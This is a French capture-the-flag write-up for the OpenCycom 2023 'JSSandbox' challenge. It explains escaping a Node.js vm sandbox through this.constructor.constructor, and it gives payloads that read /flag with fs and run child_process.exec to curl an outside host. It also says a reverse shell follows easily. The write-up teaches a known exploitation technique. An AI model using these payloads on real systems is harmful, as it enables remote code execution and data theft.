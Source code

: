 ```yaml
---
title: "JSSandbox"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```


# OpenCycom 2023 - JSSandbox - *300 pts*

## Énoncé
J'ai codé un super outil pour que les débutants puissent apprendre à utiliser NodeJS facilement sur Internet, en plus j'ai sandboxé l'exécution pour pas que des petits filous essayent de faire n'importe quoi :)

Je doute quand même de la robustesse de la méthode que j'ai employée, tu peux y jeter un coup d'oeil ?

*le flag se trouve dans le fichier* `/flag`

*Ce challenge a été résolu par 8,3% des équipes.*

## Solution

Une sandbox JavaScript ! Elle me permet de jouer avec JS et d'apprendre à programmer.

La première question que je me pose est : qui ou quoi exécute mon code ? Dans ce cas précis, ça a l'air d'être le serveur qui fait tout, car rien n'est exécuté côté client. Cela veut dire que le serveur exécute le code que je veux, pas mal non ?

![](/images/015/01.png)

Sauf qu'après quelques essais, on se rend compte que cette sandbox est bien limitée : pas d'accès aux modules `fs` ou `child_process`, et surtout, pas possible de `require` des nouveaux modules.

Cela ressemble a une VM JavaScript faite avec le module node `vm`, mais c'est plutôt une bonne nouvelle pour nous, car ce module n'est pas sécurisé du tout.

Commençons par essayer de trouver si un contexte existe avec le keyword `this`.

![](/images/015/02.png)

On nous retourne `[Object object]`, ce qui veut dire que `this` existe bel et bien.

Après quelques recherches sur Internet, je me rends compte qu'il serait possible de sortir du contexte de la VM en utilisant les constructeurs de mon objet `this` : `this.constructor.constructor`. Cela veut dire qu'on peut lui passer une fonction anonyme sous forme de texte, qui sera automatiquement appelée par le constructeur lors de son instanciation. 

Par exemple, on peut faire : `this.constructor.constructor('return 1+1')`

![](/images/015/03.png)

Bingo, on arrive à exécuter du code. Mais ça nous avance à quoi ?
Ce qui compte ici c'est le contexte dans lequel est exécuté notre code. En utilisant les constructeurs, on est en mesure d'échapper le contexte de la VM pour se retrouver dans le contexte global.

On peut maintenant utiliser `require` pour appeler n'importe quelle librairie native ! À nous le flag.

```
this.constructor.constructor("return process.mainModule.require(\'fs\').readFileSync(\'flag\',\'utf-8\')")()
```

![](/images/015/04.png)

Petit bonus, on peut également obtenir une RCE côté système avec le module `child_process`.

```
this.constructor.constructor("return process.mainModule.require(\'child_process\').exec(\'curl http://opencycom.free.beeceptor.com\')")()
```

![](/images/015/05.png)

![](/images/015/06.png)

À partir de là, il est trivial d'obtenir un reverse shell :)

*FLAG : OPC{VM\*\*\*\*\*\*\*\*\*\*}*
